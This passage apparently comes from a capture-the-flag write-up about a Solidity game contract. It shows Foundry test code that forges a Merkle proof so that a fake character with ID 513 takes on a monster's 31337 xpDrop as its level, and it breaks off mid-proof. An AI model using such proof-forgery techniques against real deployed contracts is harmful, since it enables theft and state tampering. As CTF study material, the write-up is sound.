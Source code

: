 To exploit the vulnerability, we need a character ID that, when used in the character proof calculation, will give us the path to the right half of Monster 0's data. Working backwards:

```
Character path = WORLD_CHARACTERS_INDEX << 7 | character.id
1100000001 (desired path)
0100000000 (WORLD_CHARACTERS_INDEX << 7)
---------------
1000000001 (required character.id in binary)
```

Converting `1000000001` from binary to decimal gives us 513. Therefore:
1. We need to die exactly 513 times to set Jenkins' kill counter
2. We need to create exactly 513 characters to claim ID 513
3. We use 513 as our fake character's ID

This gives us a path that allows us to reach into the monster tree and specifically access the right half of Jenkins' data, where xpDrop (31337) will become our character's level.

### Building the Exploit

The attack requires several steps:

1. Set up Jenkins' kill count:
```solidity
// Create character and backup
world.createCharacter();
vm.roll(block.number + 1);
world.createBackup();

// Die to Jenkins 513 times
for (uint i = 0; i < 513; i++) {
    vm.roll(block.number + 1);
    world.restoreCharacter(character, proof);
    vm.roll(block.number + 1);
    world.fightMonster(0, 0);
}
```

2. Create our fake character structure:
```solidity
IWorldOfMemecraft.Character memory fakeCharacter;
fakeCharacter.id = 513;      // Chosen to match Jenkins' kills
fakeCharacter.level = 31337; // Will come from Jenkins' xpDrop
fakeCharacter.health = 1;    // From Jenkins' alive boolean
fakeCharacter.xp = 1;        // From Jenkins' alive boolean
```

3. Build the merkle proof:
```solidity
bytes32[] memory fakeProof = new bytes32[](10);

// First part of proof uses Jenkins' upper fields
fakeProof[0] = keccak256(
    abi.encodePacked(
        keccak256(
            abi.encodePacked(
                keccak256(abi.encode(monster0.id)),
                keccak256(abi.encode(monster0.name))
            )
        ),
        keccak256(
            abi.encodePacked(
                keccak256(abi.encode(monster0.level)),
                keccak256(abi.encode(monster0.health))
            )
        )
    )
```